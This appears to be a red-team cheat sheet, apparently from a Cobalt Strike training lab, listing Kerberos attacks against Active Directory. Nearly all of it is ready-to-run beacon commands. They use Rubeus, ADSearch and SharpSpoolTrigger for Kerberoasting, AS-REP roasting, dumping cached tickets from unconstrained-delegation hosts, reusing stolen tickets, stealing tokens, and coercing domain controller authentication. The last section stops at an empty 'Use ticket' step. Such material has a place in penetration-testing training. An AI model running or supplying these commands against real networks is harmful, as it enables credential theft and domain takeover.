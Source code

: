 ## Kerberos

### Kerberoasting

```bash
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /simple /nowrap

# Select accounts
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(servicePrincipalName=*))" --attributes cn,servicePrincipalName,samAccountName
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /user:mssql_svc /nowrap
```

### Asreproast

```bash
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes cn,distinguishedname,samaccountname
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asreproast /user:squid_svc /nowrap
```

### Unconstrained Delegation

> Domain Controllers are always permitted for unconstrained delegation.

#### NO Forced Authentication

```bash
# Find hosts
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname
# show all the tickets that are currently cached
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
# Extract ticket
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x14794e /nowrap
# start a new logon session
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFwj[...]MuSU8=
# Steal token
beacon> steal_token 1540
```

#### Forced Authentication

> To stop Rubeus, use the `jobs` and `jobkill` commands

```bash
# Monitor
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:10 /nowrap
# Force Dc2=target web=listener
beacon> execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe dc-2.dev.cyberbotic.io web.dev.cyberbotic.io
# Use ticket
```
